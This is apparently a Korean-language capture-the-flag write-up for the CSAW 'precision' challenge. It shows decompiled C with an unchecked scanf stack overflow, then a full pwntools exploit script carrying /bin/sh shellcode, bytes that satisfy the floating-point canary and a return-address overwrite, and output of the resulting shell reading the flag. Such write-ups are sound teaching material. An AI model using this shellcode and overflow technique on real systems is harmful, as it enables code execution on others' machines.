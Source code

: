 ============================================================================================================
[csaw] precision
============================================================================================================


Source Analysis
============================================================================================================

프로그램은 스택 카나리와 nx는 안걸려 있고 aslr만 걸려 있는데 문제에서 버퍼 위치를 찍어 줍니다. 

.. code-block:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        int v4; // [sp+18h] [bp-88h]@1
        double v5; // [sp+98h] [bp-8h]@1

        v5 = 64.33333;
        setvbuf(stdout, 0, 2, 0);
        printf("Buff: %p\n", &v4);
        __isoc99_scanf("%s", &v4);
        if ( 64.33333 != v5 )
        {
            puts("Nope");
            exit(1);
        }
        return printf(str, &v4);
    }

그리고 문제를 보면 v4에서 간단한 오버플로우가 발생되며 중간에 v5값만 맞춰서 넣어 주는것만 조심하면 쉽게 해결 됩니다.

|

공격 코드는 다음과 같습니다.

.. code-block:: python

    from pwn import *
    import struct

    p = lambda x: struct.pack("<I", x)

    sh = process("./precision")

    # Buff: 0xffe6c0d8
    recv = sh.recvline()
    buf_addr = int(recv.split(" ")[1][2:], 16)
    print "%d [%s]" % (buf_addr, hex(buf_addr))

    # Attack Payload
    # Shellcode + Dummy + p32(0x475a31a5)+ p32(40501555) + Dummy (12) + buf_addr

    shellcode= "\x31\xc0\xb0\x30\x01\xc4\x30\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\xb0\xc0\xe8\x04\xcd\x80\xc0\xe8\x03\xcd\x80"
    precision = "\xa5\x31\x5a\x47\x55\x15\x50\x40"

    payload = shellcode + "A" * (128-len(shellcode)) + precision + "B" * 12 + p(buf_addr)

    sh.sendline(payload)
    sh.interactive() 


공격 코드 = 쉘 코드 + v5 이전까지의 더미 + v5에 해당 하는 8바이트 + eip 전까지 12바이트 더미 + 문제에서 찍어주는 buf 주소

.. code-block:: console

    $ python exploit.py 

    [+] Started program './precision'
    4294231000 [0xfff4c3d8]
    [*] Switching to interactive mode

    Got 1��0 �0�Ph//shh/bin\x89���\xb0\xb0��\x04̀��\x03̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa51ZGU\x15P@BBBBBBBBBBBB����
                    ls
    contacts
    contacts_1153cd2daa128685d40c020c439fa906
    dump
    exploit.py
    flag
    precision
    precision_a8f6f0590c177948fe06c76a1831e650

    $ cat flag
    THE FLAG IS {this is flag}

    $ exit